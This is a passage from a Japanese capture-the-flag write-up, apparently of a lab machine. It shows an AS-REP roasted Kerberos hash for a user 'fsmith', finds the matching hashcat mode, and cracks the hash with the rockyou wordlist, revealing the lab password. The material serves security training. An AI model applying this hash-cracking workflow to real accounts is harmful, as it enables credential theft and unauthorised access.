 $krb5asrep$23$fsmith@EGOTISTICALBANK:c932696d721341ea6010068a314f5239$f297602f9d43f04534e0a4cf7f4589ad9469c483ed5a331375fe035555c37acdf6d6211bdfaa7f165324979ab3d4240b05e391143f4e026138ecbaaede6b7fab1472dc29e3ae7d8bd703f320885391801f48686a2a197268c16bfc85a6ccf973583c64884a0738fbedbb427360730203fd05eae6fe78a0f8486cdffa0e0d64853d9cb94592ce3dc88a1ed8fa12bf65478a07d144ca6d733dc1a2077ce1ac58a2a39f393f6877b6995c6725be8c540b92095b56035ef5e7101ae2ae5a3c8c147bc810221b269a4596fb2a84099b0bba05d1b57e0f37b142c520fd4d5cabbbcb6f97e588b475fc1c343f9f1782a5347796d72e9db7a84dc5d7f3
```

TGTを取得することができました！

### hashcat

TGTを取得することができたら次にパスワードを推測します。

TGTにはパスワードハッシュが含まれているのでhashcatを使うことでパスワードを特定することができます。

hashcatはMD4, MD5, SHA1など多くのタイプのハッシュからパスワードを復元することができます。

そのため、どのタイプのハッシュなのかもhashcatの引数(mode)として与える必要があるのでmodeが何に当たるのか確認します。


```
# hashcat --example-hashes | less
```

TGTの先頭の文字列```krb5asrep```で検索すると


```
MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
PASS: hashcat
```

modeが18200であることがわかります。

```hashcat -h```からもmodeの確認はできますが、実際に確認したいTGTの文字列から検索できるので```hashcat --example-hashes```も知っておくと便利です。

modeがわかったら実際にhashcatでクラックします。

```
# hashcat -m 18200 tgt-hash.txt /usr/share/wordlists/rockyou.txt
```
(tgt-hash.txtに先ほど取得したTGTを保存しています)

hashcatでは利用するパスワードリストも指定する必要がありますが、kaliで標準でインストールされている```/usr/share/wordlists/rockyou.txt```を利用することが良いと思います。

実行するとして以下のように```Cracked```となり、```Thestrokes23```がパスワードだとわかりました！


```